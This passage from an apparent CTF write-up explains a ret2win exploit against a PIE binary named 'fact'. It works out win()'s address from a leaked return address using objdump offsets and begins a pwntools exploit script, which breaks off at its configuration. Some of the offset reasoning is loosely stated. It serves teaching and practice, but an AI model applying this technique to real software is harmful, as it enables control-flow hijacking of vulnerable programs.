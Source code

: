 ## 📐 7. Calculating win()’s Address
We must know three things:

- Leaked address: `<leak>`, from the `do_math` function.
- Offset of that return inside the branch function, e.g. `square_root_facts` is at branch_offset.
- Offset of `win` in the binary

Use ghidra or objdump:
```bash
$ objdump -d ./fact | grep "<win>"
000000000000169f <win>:
…
$ objdump -d ./fact | grep square_root_facts -n
…:1582:   call   square_root_facts
``` 
On our system:
```bash
WIN_OFFSET     = 0x169f
BRANCH_OFFSET  = { 'square_root': 0x1582, … }
win_addr = leaked_ret - branch_offset + WIN_OFFSET
``` 

Since all code is PIE, we can always calculate the address of `win()` by using the **relative offset** between the leaked return address and the start of the function we want to jump to. By subtracting the branch offset (the difference between the leaked address and the function we just called) and then adding the `win()` function's offset, we can reliably land at `win()` every time, even though the program's memory layout changes due to ASLR.

```asm
+------------------------+        +------------------------+        +------------------------+
|  Leaked Return PC      |  --->  |  Branch Offset         |  --->  |    Win Offset          |
+------------------------+        +------------------------+        +------------------------+
           |                             |                                |
           v                             v                                v
  0xdeadbeef (Leaked)              0x1582 (square_root)              0x169f (win() address)
   (from stack)                    (branch offset for call)          (calculated win address)

``` 

This works because the address of `win()` is always at the **same relative distance** from the leaked return address, which means we can compute it dynamically, no matter where the program is loaded in memory.

## 🛠️ 8. Crafting the Exploit Script
Putting it all together in Python with pwntools:

```python3
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
CTF Exploit Script
Leads the return address of a fact function (square_root, multiplication, xor)
back to win() via ret2win.
exploit author: delaysports
"""

import argparse
import time
from pwn import remote, process

# ──────────────── Configuration ────────────────
CONFIG = {
    'BINARY': './fact',       # Local binary for process exploitation
    'HOST': '127.0.0.1',      # Remote host for --remote
    'PORT': 9002,             # Remote port
    'BRANCH_OFFSETS': {
```